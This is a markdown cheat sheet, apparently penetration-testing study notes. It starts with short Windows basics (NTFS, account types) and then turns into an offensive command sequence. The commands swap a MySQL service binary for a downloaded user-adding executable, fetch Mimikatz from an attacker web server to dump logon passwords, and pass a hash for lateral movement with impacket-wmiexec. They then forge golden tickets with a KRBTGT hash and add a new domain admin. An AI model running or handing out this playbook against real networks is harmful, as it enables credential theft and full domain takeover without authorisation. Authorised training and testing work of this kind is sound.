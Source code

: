 # Windows

the system environment variable for the Windows directory is `%windir%`.

The `System32` folder holds the important files that are critical for the operating system.

## File system

The file system used in modern versions of Windows is the New Technology File System or simply NTFS.

Before NTFS, there was FAT16/FAT32 (File Allocation Table) and HPFS (High Performance File System).

You still see FAT partitions in use today. For example, you typically see FAT partitions in USB devices, MicroSD cards, etc. but traditionally not on personal Windows computers/laptops or Windows servers.

NTFS is known as a journaling file system. In case of a failure, the file system can automatically repair the folders/files on disk using information stored in a log file. This function is not possible with FAT.

## Users

User accounts can be one of two types on a typical local Windows system: Administrator & Standard User.

The user account type will determine what actions the user can perform on that specific Windows system.

An Administrator can make changes to the system: add users, delete users, modify groups, modify settings on the system, etc.
A Standard User can only make changes to folders/files attributed to the user & can't perform system-level changes, such as install programs.

## Troubleshooting

`C:\Windows\System32\control.exe /name Microsoft.Troubleshooting`

## Commands

### RDP connections

xfreerdp /u:username /p:password /d:domain-name /v:IP-address /w:1920 /h:1080 /fonts /smart-sizing

### Initial enum commands

hostname
whoami
whoami /groups
net user

### Enumeration running services

Get-CimInstance -ClassName win32*service | Select Name,State,PathName,StartName | Where-Object {$*.State -like 'Running'}

### Service binary enumeration

icacls "C:\xampp\apache\bin\httpd.exe"
icalcs "C:\xampp\mysql\bin\mysqld.exe"

### Enumerate specific service

Get-CimInstance -ClassName Win32_Service -Filter "Name='mysql'" | Select-Object StartMode

### Compile adduser.c and configure web server

x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
python3 -m http.server 80

### Download binary, move it, verify user

iwr -uri http://192.168.x.xx/adduser.exe -OutFile adduser.exe
move C:\xampp\mysql\bin\mysqld.exe mysqld_backup.exe
move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
net user

### Restarting service

net stop mysql (fails)

Get-CimInstance -ClassName Win32_Service -Filter "Name='mysql'" | Select-Object StartMode
Restart-Computer -WhatIf (or whoami /priv)
Restart-Computer

### Download Mimikatz, dump credentials

iwr -uri http://192.168.1.47/mimikatz.exe -OutFile mimikatz.exe
mimikatz.exe
mimikatz privilege::debug
mimikatz token::elevate
mimikatz sekurlsa::logonpasswords

### Lateral movement 1

/usr/bin/impacket-wmiexec -hashes :a57b67b0bfe5dbd258226194f0caf201 corp/mary@192.168.x.xx

### Find PS History

C:\users\jeff\appdata\roaming\microsoft\windows\powershell\psreadline>type ConsoleHost_History.txt

### PsExec to DC

PsExec64.exe \\dc01 cmd.exe

### Golden ticket information - Dump SID and KRBTGT hash (on DC)

PS C:\pentst> .\mimikatz.exe
mimikatz privilege::debug
mimikatz token::elevate (DONT NEED THIS)
mimikatz lsadump::lsa /patch

### Create golden ticket (write to file in this case)

PS C:\Tools> .\mimikatz.exe
mimikatz kerberos::purge

mimikatz kerberos::golden /user:michael /domain:http://corp.com /sid:S-1-5-21-424464709-3473652527-2093888899 /krbtgt:4199649f577fc4f18891600906044e88 /ticket:golden

### Super golden ticket

kerberos::golden /user:michael /domain:http://corp.com /sid:S-1-5-21-424464709-3473652527-2093888899 /krbtgt:4199649f577fc4f18891600906044e88 /ticket:corp_super_golden /endin:2147483647

### Inject ticket to memory

C:\Tools> mimikatz.exe
mimikatz kerberos::ptt golden

### PsExec to DC

PsExec64.exe \\dc01 cmd.exe

### Verify groups

whoami /groups

### Adding a domain admin

net user mighty Password123! /add /domain
net group "domain admins" mighty /add /domain
